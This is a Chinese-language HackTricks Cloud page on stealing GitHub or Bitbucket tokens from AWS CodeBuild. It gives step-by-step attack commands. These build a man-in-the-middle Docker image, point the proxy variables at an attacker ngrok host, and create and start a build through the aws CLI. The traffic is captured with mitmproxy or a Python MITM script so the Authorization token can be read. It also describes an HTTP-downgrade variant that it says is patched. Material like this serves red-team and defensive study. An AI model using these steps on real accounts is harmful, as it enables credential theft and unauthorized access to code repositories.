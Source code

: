 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复配置的Github/Bitbucket令牌

首先，检查是否有任何您可以泄露的已配置源凭证：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果您发现例如 Github 的认证设置在账户中，您可以通过让 Codebuild **使用特定的 Docker 镜像**来运行项目的构建，来**泄露**那个**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**来设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照仓库的说明设置您的代理 IP 地址和 SSL 证书，并**构建 Docker 镜像**。
* **不要设置 `http_proxy`**，以免拦截对元数据端点的请求。
* 您可以使用 **`ngrok`**，比如 `ngrok tcp 4444` 来设置代理到您的主机
* 一旦您构建了 Docker 镜像，**上传它到一个公共仓库**（Dockerhub、ECR...）
2. **设置环境**
* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 设置项目使用**之前生成的 Docker 镜像**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **在您的主机中设置 MitM 代理**

* 如**Github 仓库**中所示，您可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**使用的 mitmproxy 版本是 9.0.1**，有报告称版本 10 可能不适用。
{% endhint %}

4. **运行构建并捕获凭证**

*   你可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我认为是在周五）。所以攻击者现在无法再滥用它了 :)**
{% endhint %}

一个拥有在 CodeBuild 上**提升权限的攻击者可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，那么可以泄露用于访问代码的**临时 OAuth 令牌**。

* 攻击者可以向 CodeBuild 项目添加环境变量 **http\_proxy** 和 **https\_proxy**，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 从 HTTPS 改为 HTTP，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 接着，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**credentials** 将以明文（base64）形式 **发送** 到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在，攻击者将能够从他的机器上使用 token，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易地（滥）用它。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零到英雄学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 HackTricks 上看到你的 **公司广告** 或者 **下载 HackTricks 的 PDF**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 系列
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来 **分享你的黑客技巧**。

</details>
